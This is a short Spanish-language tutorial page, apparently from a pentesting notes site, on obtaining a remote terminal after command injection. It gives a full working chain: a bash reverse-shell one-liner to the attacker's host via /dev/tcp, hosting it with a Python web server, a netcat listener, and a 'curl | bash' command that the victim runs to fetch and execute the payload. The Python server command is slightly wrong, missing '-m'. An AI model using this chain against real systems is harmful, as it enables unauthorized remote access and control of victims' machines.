 ```yaml
---
sidebar_position: 3
---
```


# Ejecutar terminal remota

En este apartado se vera como lanzar una terminal mediante el comando curl y python, esto se utilizara cuando se permita la ejecución de comandos.

## Crear archivo index.html

En el directorio que en pasos posteriores se convertira en un servidor web, creamos un archivo **index.html** con el siguiente contenido.

```bash
#!/bin/bash
bash -i >& /dev/tcp/<IpDeTuMaquina>/<PuertoLibre> 0>&1
```
Este comando permite lanzar un bash con el usuario actual.

## Crear servidor web con Pyhton

Una vez se situa en el directorio que contiene el archivo index.html creado con anterioridad se ejecutara el siguiente comando:
```bash
sudo python3 http.server 80
```
Con esto ya se habria lanzado un servidor web en el puerto 80.

## Ponerse en modo escucha

Antes de lanzar el index.html, en **nuestra máquina principal** usaremos netcat con el puerto utilizado en el archivo index.html
```bash
nc -lvp <Puerto usado en index.html>
```
Con esto tendremos una escucha, que se encargara de que en el momento que se lance el archivo **index.html** poder interceptar la terminal

## Ejecutar index.html

Para esto se hara uso del comando **curl**, este comando esta dedicado a la transferencia de archivos, este comando se utilizara donde la máquina victima permita el uso de insercción de comandos.
```bash
curl <IP de tu máquina> | bash
```

Con esto el **netcat** ya deberia haber detectado la terminal y solo quedaria [sanitizarla](./sanitizar).